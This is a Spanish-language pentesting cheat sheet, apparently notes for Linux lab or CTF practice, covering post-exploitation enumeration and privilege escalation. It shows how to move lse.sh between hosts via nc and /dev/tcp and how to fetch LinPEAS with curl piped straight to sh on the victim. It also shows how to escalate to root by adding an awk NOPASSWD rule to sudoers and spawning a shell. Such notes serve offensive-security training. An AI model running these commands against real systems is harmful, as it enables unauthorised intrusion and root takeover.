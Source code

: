 ```shell
env
```

#### Enumeración manual por grupo
```shell
find / -group bugtracker 2>/dev/null
```
## Enumeración automática
#### LSE: Linux Smart Enumeration
```shell
## EN ATACANTE
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
cat < /dev/tcp/192.168.111.45/443

#En la VICTIMA 
nc -nlvp 443 < lse.sh

# Reportamos con nivel de profundidad
chmod +x lse.sh
./lse.sh -l 1
	(sin contraseña)
```

#### LinPeas
```shell
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```shell
# Local network
sudo python3 -m http.server 80 #Host
curl 192.168.95.1/linpeas.sh | sh #Victim
```

## Elevación  (usuario o root)

#### Elevación básica
```shell
sudo su
sudo -l
```

#### Abuso del fichero Sudoers
```shell
nano /etc/sudoers
	s4vitar ALL=(root) NOPASSWD: /usr/bin/awk

sudo awk 'BEGIN {system("/bin/bash")}'
```
